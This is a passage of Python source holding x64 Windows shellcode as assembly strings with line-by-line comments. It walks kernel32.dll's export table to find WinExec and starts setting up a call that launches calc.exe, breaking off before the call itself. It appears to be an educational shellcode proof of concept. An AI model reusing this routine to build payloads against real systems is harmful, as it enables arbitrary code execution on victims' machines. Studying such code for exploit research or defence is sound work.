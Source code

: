 ```python
        "   add rbx, r8; "                  # Calculate absolute address of PE header by adding base address of kernel32.dll
        "   mov edx, [rbx+0x88];"           # Get Relative Virtual Address (RVA) of Export Address Table from PE header
        "   add rdx, r8;"                   # Convert RVA of Export Address Table to absolute address by adding base address
        "   mov r10d, [rdx+0x14];"          # Load number of exported functions from Export Address Table
        "   xor r11, r11;"                  # Zero out R11 to use it as a clean register
        "   mov r11d, [rdx+0x20];"          # Get RVA of the AddressOfNames from the Export Address Table
        "   add r11, r8;"                   # Convert AddressOfNames RVA to absolute address by adding base address
        "   mov rcx, r10;"                  # Initialize RCX with the number of functions (loop counter)
        "kernel32findfunction: "
        " jecxz FunctionNameFound;"         # Jump to FunctionNameFound if RCX is zero (no more functions to check)
        "   xor ebx,ebx;"                   # Clear EBX to use as a temporary register
        "   mov ebx, [r11+4+rcx*4];"        # Load RVA of current function name into EBX (adjust index as rcx decrements)
        "   add rbx, r8;"                   # Convert RVA to absolute address (function name VMA)
        "   dec rcx;"                       # Decrement the loop counter
        "   mov rax, 0x00636578456E6957;"   # Load the ASCII value of 'WinExec' into RAX for comparison          
        "   cmp [rbx], rax;"                # Compare the first eight bytes of the function name at RBX with 'WinExec'
        "   jnz kernel32findfunction;"      # If not matched, jump back to start of loop
        "FunctionNameFound: "
        # Entry point after finding the target function name 'WinExec'
        "   xor r11, r11;"
        "   mov r11d, [rdx+0x24];"          # Load the RVA of the AddressOfNameOrdinals from the Export Table
        "   add r11, r8;"                   # Convert RVA to absolute VMA (Virtual Memory Address)
        # Incrementing the counter to match the ordinal array index, since we decremented it in the search loop
        "   inc rcx;"
        "   mov r13w, [r11+rcx*2];"         # Retrieve the function ordinal using the adjusted counter from AddressOfNameOrdinals
        # Preparing to fetch the actual function address from AddressOfFunctions
        "   xor r11, r11;"
        "   mov r11d, [rdx+0x1c];"          # Load the RVA of the AddressOfFunctions from the Export Table
        "   add r11, r8;"                   # Convert RVA to absolute VMA where the function addresses are stored
        "   mov eax, [r11+4+r13*4];"          # Fetch the function address RVA using the ordinal as an index
        "   add rax, r8;"                   # Convert function address RVA to absolute address
        "   mov r14, rax;"                  # Store the resolved function address in R14 for later use
        # WinExec Call
        "  xor rax, rax;"                   # Zero RAX to create a null byte
        "  push rax;"                       # Push the null byte onto the stack, acts as string terminator for "calc.exe"
        "  mov rax, 0x6578652E636C6163;"    # Move the reverse byte-order string 'calc.exe' into RAX
        "  push rax;"                       # Push the string 'calc.exe' onto the stack (Note: string must be reversed in memory)
        "  mov rcx, rsp;"                   # Set RCX to point to the string "calc.exe" on the stack, RCX is the first argument for WinExec
        "  xor rdx, rdx;"                   # Zero out RDX, preparing it for the next operation
        "  inc rdx;"                        # Set RDX to 1; this sets uCmdShow parameter for WinExec to SW_SHOWNORMAL
```